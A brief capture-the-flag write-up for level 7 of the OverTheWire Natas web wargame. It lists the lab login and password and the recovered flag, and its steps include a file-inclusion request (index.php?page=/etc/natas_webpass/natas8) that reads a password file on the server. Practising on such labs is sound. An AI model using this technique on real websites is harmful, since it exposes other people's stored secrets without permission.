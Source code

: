 link: http://natas7.natas.labs.overthewire.org/
login: natas7
pwd: jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr

*steps:*
- check F12
- go to index.php?page=/etc/natas_webpass/natas8

flag: a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB